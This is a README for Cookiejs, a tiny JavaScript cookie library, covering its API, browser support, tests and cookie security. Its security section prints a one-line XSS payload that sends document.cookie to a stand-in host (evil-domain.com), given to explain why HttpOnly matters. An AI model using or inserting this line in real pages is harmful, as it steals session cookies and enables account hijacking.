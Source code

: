 
# Cookiejs

[![Build Status](https://semaphoreci.com/api/v1/projects/7aad66cd-8fdc-496e-8884-f30f8441e7dd/519562/badge.svg)](https://semaphoreci.com/brad/cookies)      
[![Dependency Status](https://david-dm.org/elementaryjs/cookies.svg)](https://david-dm.org/elementaryjs/cookies)
[![Code Climate](https://codeclimate.com/github/bradberger/cookies/badges/gpa.svg)](https://codeclimate.com/github/bradberger/cookies)

A complete cookies reader/writer framework with full unicode support in under 1 kB with 100% test coverage.

## Credits

It's taken entirely from the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/document.cookie#A_little_framework.3A_a_complete_cookies_reader.2Fwriter_with_full_unicode_support).

## Syntax

### Setting a cookie
    Cookies.set(name, value[, end[, path[, domain[, secure]]]]);

### Getting a cookie value
    var value = Cookies.get(name);

### Removing a cookie
    Cookies.remove(name[, path], domain);

### Checking if cookie exists
    var has = Cookies.has(name);

### Getting a list of all cookies
    var keys = Cookies.keys();

## Security

It is important to note that the path restriction does not protect against unauthorized reading of the cookie from
a different path. It can easily be bypassed with simple DOM (for example by creating a hidden iframe element with
the path of the cookie, then accessing this iframe's contentDocument.cookie property). The only way to protect cookie
access is by using a different domain or subdomain, due to the same origin policy.

Cookies are often used in web application to identify a user and their authenticated session. So stealing cookie
from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include
using Social Engineering or by exploiting an XSS vulnerability in the application:

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through
Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Browser Support

Should work in pretty much all browsers.

Tests are run against the following browsers:

- Firefox (latest)
- Firefox (beta)
- Chrome (latest)
- Chrome (beta)
- Safari (OS X 10.10)
- Safari (OS X 10.09)
- Opera (latest)
- Internet Explorer 8
- Internet Explorer 9
- Internet Explorer 10
- Internet Explorer 11
- Safari on iOS 6
- Safari on iOS 7
- Safari on iOS 8
- Android (latest, currently 5)
- Android 4.4
- Android 4.3
- Android 4.2
- Android 4.1
- Android 4.0

## Tests

Tests are set up in the `tests` directory and use the [Karma test runner](https://karma-runner.github.io).

The project uses [GulpJS](//gulpjs.org) for the entire workflow. So make sure that you update the NPM requirements:

    npm install
    
Then to make changes and test use the default gulp task:

    gulp
    
This task watches the project directories, compiles the JavaScript, and runs all tests on the compiled JavaScript.

## Roadmap

Not much is planned. It does what it needs to. Feel free to submit issues or pull requests if you have any ideas.